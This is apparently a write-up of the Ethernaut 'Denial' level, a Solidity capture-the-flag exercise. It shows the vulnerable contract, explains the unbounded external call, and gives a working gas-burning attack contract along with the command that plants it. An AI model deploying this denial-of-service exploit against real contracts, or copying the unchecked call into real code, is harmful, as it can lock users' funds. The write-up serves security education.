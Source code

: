 # Level 20: Denial

This is the level 20 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites

- Solidity [`call` & `receive`](https://solidity-by-example.org/sending-ether/) methods
- [gasleft](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html#block-and-transaction-properties) function

## Hack

Given contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

`player` has to plant a denial of service attack such that `owner` is unable to withdraw funds through `withdraw` method.

This contract's vulnerability comes from the `withdraw` method which does not mitigate against possible attack through execution of some unknown external contract code through `call` method. `call` did not set a gas limit that external call can use.

The `call` method here can invoke the `receive` method of a malicious contract at `partner` address. And this is where we're going to eat up all gas so that `withdraw` function reverts with out of gas exception.

Since writing to storage is one of the most expensive operations, I will chose it for exhausting the gas in the malicious `GasBurner`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GasBurner {
    uint256 n;

    function burn() internal {
        while (gasleft() > 0) {
            n += 1;
        }
    }

    receive() external payable {
        burn();
    }
}
```

Deploy `GasBurner` on Remix and copy it's address.

Now, set the `partner` in `Denial`:
```javascript
await contract.setWithdrawPartner('<gas-burner-address>')
```

The `GasBurner` has been planted! `withdraw` would now revert on invocation.

Fin.


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

